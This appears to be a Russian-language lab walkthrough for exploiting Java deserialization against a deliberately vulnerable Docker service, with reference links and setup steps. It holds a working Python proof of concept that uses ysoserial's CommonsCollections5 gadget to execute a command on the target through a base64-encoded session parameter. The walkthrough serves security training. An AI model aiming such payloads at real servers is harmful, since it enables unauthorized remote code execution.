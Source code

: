 
# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере.